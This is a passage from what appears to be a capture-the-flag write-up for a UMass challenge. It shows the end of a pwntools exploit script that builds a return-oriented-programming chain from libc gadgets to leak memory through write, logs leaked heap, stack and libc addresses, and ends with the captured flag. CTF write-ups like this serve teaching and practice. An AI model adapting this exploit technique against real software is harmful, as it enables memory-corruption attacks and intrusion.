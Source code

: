 ```python
            libc.address + 0x45eb0, # pop rax; ret
            WRITE_NR,
            libc.address + 0x2a3e5, # pop rdi; ret
            STDOUT,
            libc.address + 0x2be51, # pop rsi; ret,
            stack,
            libc.address + 0x11f2e7, # pop rdx; pop r12; ret,
            0x40,
            0x0,
            libc.sym['write'],
    ])

    io.sendlineafter(b'>', payload)

    log.success('parent heap base: %#x', heap)
    log.success('child stack leak: %#x', stack)
    log.success('child libc base: %#x', libc.address)
    log.success('ppid: %d', PPID)
    
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% hint style="success" %}
Flag: _**UMASS{r0j0\_4d\_k33p!n6\_y0u\_r1ch\_4$\_h3ck!}**_
{% endhint %}
